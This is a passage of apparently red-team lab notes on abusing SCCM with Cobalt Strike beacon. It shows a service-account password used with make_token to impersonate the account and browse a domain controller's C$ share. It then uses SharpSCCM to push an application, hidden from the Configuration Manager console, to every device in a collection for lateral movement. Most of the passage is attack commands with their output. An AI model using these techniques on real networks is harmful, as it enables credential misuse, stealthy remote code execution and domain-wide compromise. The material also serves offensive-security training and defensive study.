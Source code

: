 **These credentials should only have read access to the SDP, but are often times over privileged (sometimes to domain/enterprise admins):**

```
beacon> make_token cyberbotic.io\sccm_svc Cyberb0tic
[+] Impersonated cyberbotic.io\sccm_svc (netonly)

beacon> ls \\dc-1.cyberbotic.io\c$
[*] Listing: \\dc-1.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:26:54   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     05/08/2021 08:20:24   PerfLogs
          dir     09/26/2023 09:07:25   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/26/2023 09:13:26   ProgramData
          dir     08/15/2022 15:07:48   Recovery
          dir     08/24/2022 11:05:32   Shares
          dir     09/26/2023 14:28:24   System Volume Information
          dir     08/15/2022 15:09:04   Users
          dir     09/26/2023 09:10:03   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/27/2023 09:28:28   DumpStack.log.tmp
 1kb      fil     09/25/2023 19:07:33   ExtADSch.log
 384mb    fil     09/27/2023 09:28:28   pagefile.sys
```

An alternate approach is to request a copy of the policy directly from SCCM using <mark style="color:yellow;">`get naa`</mark>.

This also requires local admin on the local machine to obtain a copy of its SMS Signing and SMS Encryption certificates.

## Lateral Movement

With Full or Application Administrator privileges over a device or a collection, we can deploy scripts or applications to aid in lateral movement.

**To execute a command on every device in the&#x20;**<mark style="color:yellow;">**`DEV`**</mark>**&#x20;collection, we could do&#x20;**<mark style="color:yellow;">**`exec -n DEV -p <path>`**</mark>**:**

```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner

[+] Creating new application: Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c
[+] Application path: C:\Windows\notepad.exe
[+] Updated application to hide it from the Configuration Manager console
[+] Updated application to run in the context of the logged on user
[+] Successfully created application

[+] Creating new deployment of Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c to DEV (S0100014)
[+] Found the Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c application
[+] Successfully created deployment of Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c to DEV (S0100014)
[+] New deployment name: Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c_S0100014_Install
[+] Waiting for new deployment to become available...
[+] New deployment is available, waiting 30 seconds for updated policy to become available
```